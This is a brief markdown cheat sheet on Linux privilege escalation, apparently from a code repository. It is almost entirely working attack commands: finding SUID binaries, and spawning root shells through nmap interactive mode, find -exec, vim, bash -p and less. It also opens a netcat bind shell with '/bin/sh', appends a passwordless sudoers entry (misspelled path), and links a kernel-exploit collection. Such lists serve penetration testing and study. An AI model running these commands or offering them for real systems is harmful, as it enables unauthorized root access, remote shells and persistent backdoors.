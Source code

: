 # Linux Privilege Escalation

Check Sudo Access  
`sudo -l`

## SUID Based Privilge Escalation  
### Locating SUIDS
`find . -perm /4000 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

```
nmap --interactive  
nmap> !sh
```

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find . -exec /bin/sh -p \; -quit`  
`find somefile -exec netcat -lvp 5555 -e /bin/sh \;`  
`find somefile -exec echo "lowprivuser ALL=(ALL) NOPASSWD:ALL" > /etc/sodoers \;`  
Vim  
```
vim /etc/shadow  
vim  
# Press ESC key  
:set shell=/bin/sh  
:shell
```

bash  
`bash -p`

less  
```
less /etc/passwd  
!/bin/sh
```

Kernel Exploits  
https://github.com/lucyoa/kernel-exploits

